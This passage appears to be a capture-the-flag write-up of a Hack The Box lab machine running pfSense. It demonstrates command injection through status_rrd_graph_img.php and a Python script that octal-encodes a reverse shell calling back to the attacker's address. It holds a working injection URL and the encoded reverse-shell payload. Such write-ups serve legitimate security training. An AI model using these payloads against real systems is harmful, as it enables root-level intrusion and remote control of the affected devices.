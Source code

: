 ## Exploitation

Based off the build date and the information we saw in the changelog file we know we at least have one vulnerability to work with. After a quick search online we find something applicable.

<https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/>

Our current user doesn't have many privileges so we're limited to looking for something we can manipulate in the Status submenu. Luckily we do have access to `status_rrd_graph_img.php` so we can exploit it using the technique in the article.

Let's test command injection by running the `id` command and outputting to a txt file.

`https://10.10.10.60/status_rrd_graph_img.php?database=queues;cd+..;cd+..;cd+..;cd+usr;cd+local;cd+www;id%3Ecmd.txt`

As stated in the article we're able to inject shell commands after `database=queues;`. The limitation being that forward slashes aren't going to work. Since we want to view the output of our command we first have to change directories out of the current directory of `/var/db/rrd/` and into `/usr/local/www/`. Then we can run `id` and pipe the output to cmd.txt.

![CMD](sense-cmd.png)

And we can see we have command execution as root! Now for the tricky part of getting a reverse shell. My first thought was base64 encoding to work around the forward slash issue, but I ran into a problem. Through my testing I also was not able to passthrough any dashes for command line options which means we can't use `base64 -d` to decode any input. So what we can do is use octal encoding, then use `printf` to decode it, and then pipe the output to be executed.

To faciliate generating the octal payload I wrote a quick python script to make the output compatible for `printf`.

```python
#!/usr/bin/env python3

command = "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.10',443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);'"

payload = ""

for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))

print(payload)
```

A python reverse shell is used as our command, the script adds a backslash in front of each octal encoded character and also strips any leading zeros so that the formatting is all correct.

```
root@kali:~/htb/sense# ./octal.py
\160\171\164\150\157\156\40\55\143\40\47\151\155\160\157\162\164\40\163\157\143\153\145\164\54\163\165\142\160\162\157\143\145\163\163\54\157\163\73\163\75\163\157\143\153\145\164\56\163\157\143\153\145\164\50\163\157\143\153\145\164\56\101\106\137\111\116\105\124\54\163\157\143\153\145\164\56\123\117\103\113\137\123\124\122\105\101\115\51\73\163\56\143\157\156\156\145\143\164\50\50\42\61\60\56\61\60\56\61\64\56\61\60\42\54\64\64\63\51\51\73\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\60\51\73\40\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\61\51\73\40\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\62\51\73\160\75\163\165\142\160\162\157\143\145\163\163\56\143\141\154\154\50\133\42\57\142\151\156\57\163\150\42\54\42\55\151\42\135\51\73\47
```
